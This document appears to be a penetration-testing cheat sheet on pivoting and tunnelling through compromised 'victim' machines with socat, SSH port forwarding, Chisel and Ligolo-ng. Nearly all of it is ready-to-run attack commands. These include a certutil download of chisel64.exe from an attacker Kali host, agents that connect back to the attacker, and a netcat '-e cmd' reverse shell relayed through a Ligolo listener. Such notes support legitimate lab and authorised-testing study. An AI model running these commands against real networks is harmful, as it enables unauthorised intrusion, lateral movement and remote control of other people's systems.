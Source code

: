 # SOCAT
```bash
#run it on victims machine
socat -ddd TCP-LISTEN:2345,fork TCP:<victim-ip>:5432
```

-----------------------

# SSH


#* *Local port forwarding* Created with option -L
```bash
   ssh -N -L 0.0.0.0:4455:172.16.50.217:445 user@server
```

#* *Dynamic port forwarding*: Created with option -D
```bash
   ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215
```

#* *Remote port forwarding*: Created with option -R
   First we start a local ssh server
```bash
   sudo systemctl start ssh
```

   Then we connect back to it from the remote machine. In this case,
   we want to listen on port 2345 on our Kali machine
   (127.0.0.1:2345), and forward all traffic to the PostgreSQL port
   on PGDATABASE01 (10.4.50.215:5432).
```bash
   ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
```

#* *Remote dynamic port forwarding*: Created with option -R but without specifying endpoints.
   First we start a local ssh server
```bash
   sudo systemctl start ssh
```

   Then we connect back to it from the remote machine. This creates
   a SOCKS5 proxy on our local machine at that port which is able to
   access all interfaces that are available to the victim machine.
```bash
   ssh -N -R 9998 kali@192.168.118.4
```

-----------------------

# CHISEL
| For double pivoting https://ap3x.github.io/posts/pivoting-with-chisel/

First we download the executable on the remote machine
```bash
certutil -urlcache -split -f "http://<kali-ip>/chisel64.exe" chisel64.exe
```

then we start the executable on our linux attacker box
```bash
./chisel64.elf server -p 8000 --reverse
```

and then we connect to it from the remote machine using our IP during the connection.
```bash
chisel64.exe client <kali-ip>:8000 R:socks
```

This, by default, will create a SOCKS5 proxy within the endpoint
127.0.0.1:1080 of our local machine. To access that proxy we can
edit the proxychains conf in order to put at the end
```bash
socks5 127.0.0.1 1080

```
-----------------------

# CHISEL Single port

First we download the executable on the remote machine
```bash
certutil -urlcache -split -f "http://<kali-ip>/chisel64.exe" chisel64.exe
```

then we start the executable on our linux attacker box
```bash
./chisel64.elf server -p 8000 --reverse
```

and then we connect to it from the remote machine using our IP during the connection.
```bash
./chisel client 192.168.45.222:8080 R:8000:127.0.0.1:8000
```

-----------------------

# Ligolo

Download agent for victim from ligolo-updates or use the ones in transfers
1. Transfer the agent to the victim
https://www.youtube.com/watch?v=DM1B8S80EvQ&ab_channel=GonskiCyber
| For double pivoting refer to this link https://systemweakness.com/double-pivoting-for-newbies-with-ligolo-ng-4177b3f1f27b

Add ligolo interface (in kali)
```bash
sudo ip tuntap add user sombi mode tun ligolo
sudo ip link set ligolo up
```

In kali run proxy (in kali)
```bash
./proxy -selfcert
```

In victim connect back to our kali (in victim)
```bash
.\agent.exe -connect 192.168.45.210:11601 -ignore-cert
```

Attach session (in kali/ligolo)
```bash
session [session to attach]
```

Get internal ip (in kali/ligolo)
```bash
ifconfig
```

Add internal interface to routes (in kali)
```bash
sudo ip route add 10.10.103.0/24 dev ligolo
sudo ip route add 240.0.0.1/32 dev ligolo (for 127.0.0.1 running port)

ip route list
```

Start pivoting (in kali/ligolo)
```bash
start
```

(Reverse shells)

Add a listener to our session (in kali/ligolo)
```bash
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444
```

On machine that cannot reach us
```bash
nc64.exe <ip-of-machine-running-agent> 1234 -e cmd

# On kali
rlwrap nc -lvnp 4444

(Double Pivot)
listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
session [attach 2]
ifconfig
sudo ip route add 10.20.103.0/24 dev ligolo
```

